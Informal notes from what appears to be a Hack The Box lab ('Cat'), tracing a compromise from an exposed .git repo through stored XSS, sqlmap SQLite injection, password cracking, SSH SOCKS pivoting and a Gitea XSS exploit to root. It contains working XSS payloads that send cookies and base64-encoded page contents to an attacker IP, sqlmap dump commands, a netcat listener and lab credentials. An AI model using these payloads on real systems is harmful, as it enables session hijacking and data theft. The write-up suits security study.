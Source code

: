 ___


port 80 and 22

we do have a php cookie 



is a dir but i get forbidden
http://cat.htb/uploads/



if i sign in contest I can upload files


I can upload a file but where does it go to



*dirsearch clutch* <========

*.git directory has some access*

.git/logs/HEAD found this
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000	commit (initial): Cat v1



git extractor didn't work but git-dumper worked





its an sqlite database


winners.php might b interesting


*winners.php*
<?php
$reportsDir = 'winners/';
$files = glob($reportsDir . '*.php');
if (!empty($files)) {
    include $files[0];
} else {
    echo "<h1>There are no winners.</h1>";
}
?>

*this include fucks it up*

if i can upload a php file to this path is jover



*need to name it as a.php*


*need somehitn   like this*

        // uploads/1234_filename
        // /uploads/1234_;../winners/file.php

& would work
. would work



*what to do*

need to POST to accept_cat.php as axel 

catName is the var I need for sqlite injection


admin.php page is vulnerable to stored XSS when catName is displayed on page
can steal cookies


<script>fetch('http://10.10.14.24:8888/?c=' + document.cookie)</script>



*this is so nice recursive grep*
grep -Ehair axel




```bash
<img src=x onerror="document.location='http://10.10.14.126/?cookie='+document.cookie" />
```



username is displayed on catview.php without sanitization




*grabbed cookie*
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.11.53 - - [12/Aug/2025 11:30:01] "GET /?c=PHPSESSID=dbnf7tmskggea6g2j22q33ei6d HTTP/1.1" 200 -



# sqlmap is actually goated wtf


*for enum tables*
python3 sqlmap.py -r ~/box/cat/xss/request.txt -p catName --dbms sqlite --level 5 --risk 3 --tables --threads 10 --batch


*dump users table*
python3 sqlmap.py -r ~/box/cat/xss/request.txt -p catName --dbms sqlite --level 5 --risk 3 -T users --threads 10 --batch



* this enums and dumps all tables*
python3 sqlmap.py -r ~/box/cat/xss/request.txt -p catName --dbms sqlite --level 5 --risk 3 --tables --dump --threads 10 --batch 



*this is what I used to dump users table*
python3 sqlmap.py -r ~/box/cat/xss/request.txt -p catName --dbms sqlite --level 5 --risk 3 --tables -T users --dump --threads 10 --batch




*cracked hash here*

rosamendoza485@gmail.com:soyunaprincesarosa


*ssh login*
rosa:soyunaprincesarosa



rosa in (adm) group



sendmail is in the crontab

port 25 smtp running

3000 is what

check those

╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 127.0.0.1:48317         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:50093         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:43221         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -       



apache is serving files for cat.htb:80 directly from webroot



-rwsr-xr-x 1 root root 15K Mar  7  2020 /usr/sbin/sensible-mda (Unknown SUID binary!)



-rwxr-sr-x 1 root smmsp 849K Mar  7  2020 /usr/lib/sm.bin/sendmail  --->  Sendmail_8.10.1/Sendmail_8.11.x/Linux_Kernel_2.2.x_2.4.0-test1_(SGI_ProPack_1.2/1.3)

-rwxr-sr-x 1 root smmsp 82K Mar  7  2020 /usr/lib/sm.bin/mailstats (Unknown SGID binary)


-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)

/var/mail/root

password: $6$h3rq/d.nMRoIQxyB$NsJGJxB3t6IJrvAKsS09wwuzbUEXvxD1ynte51jd/EHPqnaLLiYU6rXqievpqh0aJNTcDCCI7Xt9i67jTaqFF.



*either*
-exposed ports
-SUID
-this hash

-group and sendmail honerable mentions



*port 25 smtp*
220 cat.htb ESMTP Sendmail 8.15.2/8.15.2/Debian-18; Tue, 12 Aug 2025 17:12:37 GMT; (No UCE/UBE) logging access from: localhost(OK)-localhost [127.0.0.1]




*that hash cracked with wtf*
?:123



*/var/log/apache2/access.log*
127.0.0.1 - - [12/Aug/2025:17:40:28 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"



*info here gitea*
/var/mail/axel




We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.



*need to sendmail to jobert with gitrepo with XSS and steal his session*


he probs has access to administrator project repo




*exploit XSS gitea 1.22*.0

https://www.exploit-db.com/exploits/52077

 <a href="javascript:fetch('http://10.10.14.24:8888/?c=' + document.cookie)"> welcome to my repo</a>



*damn dynamic ssh forwarding is goated can use it to pivot*

opens an ssh SOCKS5 proxy. then edit proxychains.conf add my proxy there
and use proxychains to send traffic from all my programs through it


```bash
ssh -f -N -D 58080 rosa@cat.htb
```
```text
socks5 127.0.0.1 58080
```
```bash
sudo proxychains -q nmap -T4 -Pn -p25,587,3000,37479,38855,47401 -sT -sC -sV -oN proxy-scan.txt 127.0.0.1
```



*got jobert to click but it was empty no cookie got*
*can we read the  page*


fetch("http://localhost:3000/administrator/Employee-management/")
	.then((response) => response.text())
	.then((data) =>
		fetch(
			"http://10.10.14.126/?data=" +
				encodeURIComponent(btoa(unescape(encodeURIComponent(data)))),
		),
	);


```html
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/src/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.14.24:8888/?data="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>pwn</a>
```

```bash
sudo rlwrap nc -lnvp 80 > reply.txt
```


*this looks interesting*
    href="/administrator/Employee-management/archive/main.zip"

the readme as well

*this as well*
href="/administrator/Employee-management/commit/7fa272fd5c07320c932584e150717b4829a0d0b3"



  href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd"




*in the index.php file*
 	<?php
	$valid_username = 'admin';
	$valid_password = 'IKw75eR0MR7CMIxhH0';
	
	if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) ||
	$_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
	
	header('WWW-Authenticate: Basic realm="Employee Management"');
	header('HTTP/1.0 401 Unauthorized'); 



password works for root but not through ssh 
but works with su


always check if password for a user works through ssh and through su
# might work for one but not for the other!!!!!!


